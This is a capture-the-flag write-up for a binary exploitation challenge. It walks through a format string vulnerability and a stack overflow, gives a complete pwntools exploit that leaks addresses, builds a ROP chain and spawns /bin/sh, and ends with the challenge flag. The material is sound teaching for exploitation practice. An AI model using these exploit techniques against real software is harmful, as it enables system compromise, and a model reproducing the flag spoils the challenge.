



# Command And Control Server - Writeup

---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

The `Command And Control Server` binary simulates a mock C2 interface that accepts a "callsign" (username) and a subsequent payload. The program is vulnerable to a **format string vulnerability**, allowing for **arbitrary memory writes**. Leveraging this, we overwrite the username with `"/bin/sh"`, leak `puts@GOT`, calculate the libc base, and finally perform a **ret2libc** to spawn a shell.

---

## Binary Information

```bash
$ file main
```



```bash
$ checksec main

```



## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf(">> Welcome Commander: ");
printf(buf);  // Format string vulnerability
```


```c
read(0, v5, 0xC8uLL);  // Buffer overflow vulnerability
```


- The first vulnerability occurs at `printf(buf)`, where user input is printed without a format specifier. This leads to a **format string vulnerability**, allowing an attacker to **leak memory** and **perform arbitrary writes** using `%n`.
- The buffer `buf[208]` receives input via `read(0, buf, 0xC8)`, giving ample space for format string payloads.
- The second vulnerability lies in the use of `read(0, v5, 0xC8)` where `v5` is only an 80-byte buffer. Since `0xC8` is 200 bytes, this introduces a **classic stack-based buffer overflow**, allowing overwriting of saved registers and return addresses.
- This overflow enables a **ROP chain**, which becomes crucial after leaking libc via the format string attack.
- The binary has **NX (Non-Executable Stack)** enabled, preventing code injection, but **does not use a stack canary**, so stack smashing is possible.
- Since **PIE (Position Independent Executable)** is enabled, we must first **leak an address** to calculate the base address of the binary before launching any reliable attack.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.
- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.
- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# -----------------------[STEP 1 : LEAK USERNAME ADDRESS AND EXE_BASE ADDRESS]-----------------------
io.recvuntil(b">> Auth Token = ")
username_ptr = io.recvline().strip()
username_ptr = int(username_ptr,16)

exe.address = username_ptr - exe.sym['username']

log.info(f"username@ : {hex(username_ptr)}")
log.info(f"exe.base@ : {hex(exe.address)}")

# ------------------[STEP 2 : OVERWRITE USERNAME WITH /BIN/SH USING FMTSTR_PAYLOAD]------------------

io.recvuntil(b">> [C2] Enter your callsign to proceed:")


payload=fmtstr_payload(6, {username_ptr:u64(b"/bin/sh\x00")})
io.sendline(payload)

# -----------------------[STEP 3 : LEAK LIBC_BASE ADDRESS USING PUTS(PUTS@GOT)]-----------------------
rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.symbols['main'])

offset = 88

payload = flat(
    b'A' * offset,
    rop.chain()
)

io.sendline(payload)

for i in range(0,4):
    io.recvline()


leak=io.recvline()
leaked_puts = u64(leak[:-1].ljust(8, b'\x00'))
log.success(f"Leaked puts@libc: {hex(leaked_puts)}")
libc.address = leaked_puts - libc.symbols['puts']
log.success(f"Libc base: {hex(libc.address)}")

# ---------------------------------------[STEP 4 : RET2LIBC ]---------------------------------------
rop = ROP([exe, libc])

pop_rax       = rop.find_gadget(['pop rax', 'ret'])[0]
pop_rdi       = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15   = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

syscall_gadget = rop.find_gadget(['syscall'])[0]
ret = rop.find_gadget(['ret'])[0]

io.sendline(b'%p.%p.')
io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")

offset = 88
payload = b"A" * offset

payload += p64(pop_rdi)
payload += p64(username_ptr)

payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(59)
payload += p64(syscall_gadget)

io.sendline(payload)


io.interactive()

```

---

## Exploit Output



---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- Format string vulnerability enables arbitrary write
- ROP used to leak libc and execute a syscall chain
- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```
